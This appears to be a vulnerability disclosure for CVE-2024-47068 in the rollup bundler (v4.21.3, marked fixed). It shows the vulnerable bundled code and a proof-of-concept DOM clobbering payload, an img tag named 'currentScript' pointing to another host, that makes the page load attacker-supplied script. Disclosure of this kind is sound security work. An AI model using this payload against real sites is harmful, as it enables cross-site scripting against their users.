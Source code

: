 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: CVE-2024-47068
+ Status: Fixed
+ Foundby: TheHulk

### Library

https://github.com/rollup/rollup


### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```

